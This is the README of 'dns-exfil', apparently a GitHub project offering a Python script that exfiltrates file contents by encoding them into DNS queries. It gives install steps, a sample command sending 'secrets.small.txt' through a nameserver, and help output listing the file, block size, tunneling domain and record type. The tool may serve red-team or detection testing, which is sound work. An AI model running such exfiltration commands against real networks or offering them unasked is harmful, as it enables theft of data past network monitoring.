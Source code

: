# dns-exfil
A simple DNS exfiltration script.


## Installation
1. `git clone https://github.com/rybolov/dns-exfil.git`
2. `python3 -m venv ./venv`
3. `source ./venv/bin/activate`
4. `pip3 install -r requirements.txt`
4. `python3 ./main.py --file secrets.small.txt --type A --domain google.com --nameserver 9.9.9.9 --verbose --demo` 
5. Enjoy

```
$ python3 ./main.py --help
usage: main.py [-h] [--filename FILENAME] [--blocksize {4,5,6,7,8,9,10,11,12,13,14,15,16}] [--domain DOMAIN] [--data DATA] [--type {A,TXT}]
               [--nameserver NAMESERVER] [--verbose] [--demo]

Exfiltrate data using DNS.

options:
  -h, --help            show this help message and exit
  --filename FILENAME, --file FILENAME, -f FILENAME, -i FILENAME, --input FILENAME
                        File to exfiltrate. (default: none)
  --blocksize {4,5,6,7,8,9,10,11,12,13,14,15,16}, -b {4,5,6,7,8,9,10,11,12,13,14,15,16}, -bs {4,5,6,7,8,9,10,11,12,13,14,15,16}
                        Size of blocks to encode. (default: 12)
  --domain DOMAIN, -d DOMAIN
                        Domain to use for tunneling. (default: google.com)
  --data DATA           Read data from the command line. (default: none)
  --type {A,TXT}, -t {A,TXT}
                        Read data from the command line. (default: TXT)
  --nameserver NAMESERVER, -n NAMESERVER, -ns NAMESERVER
                        Nameserver to query. (default: 8.8.8.8)
  --verbose, -v         Verbose output. (default: none)
  --demo                Demo mode. (default: none)
```